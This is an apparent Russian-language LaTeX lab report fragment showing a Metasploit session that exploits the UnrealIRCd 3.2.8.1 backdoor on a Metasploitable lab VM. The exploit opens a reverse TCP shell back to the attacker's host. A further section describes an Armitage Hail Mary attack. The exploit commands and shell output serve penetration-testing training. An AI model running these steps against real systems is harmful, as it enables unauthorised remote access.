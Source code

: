 \documentclass[10pt,a4paper]{report}
\begin{document}
		\begin{lstlisting}
msf auxiliary(smb_enumshares) > use exploit/unix/irc/unreal_ircd_3281_backdoor 

msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.202.2
RHOST => 192.168.202.2
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.202.3:4444 
[*] Connected to 192.168.202.2:6667...
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using 
your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo vTLhGHd07reXBJQe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "vTLhGHd07reXBJQe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.202.3:4444 -> 192.168.202.2:58172) 
at 2016-05-06 17:34:15 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 
GNU/Linux
		\end{lstlisting}
		Как видно из вывода, доступ к консоли был получен.
		
	\section{Осуществление атаки при помощи утилиты Armitage Hail Mary}
		Запустим утилиту Armitage Hail Mary и произведем атаку хоста.
		Результат представлен на рисунке~\ref{ris:armitage}.
		
		\begin{figure}[h]
			\centering
			\includegraphics[width=0.9\textwidth]{res/armitage}
			\caption{Произведение атаки при помощи утилиты Armitage Hail Mary}
			\label{ris:armitage}
		\end{figure}
	
\end{document}
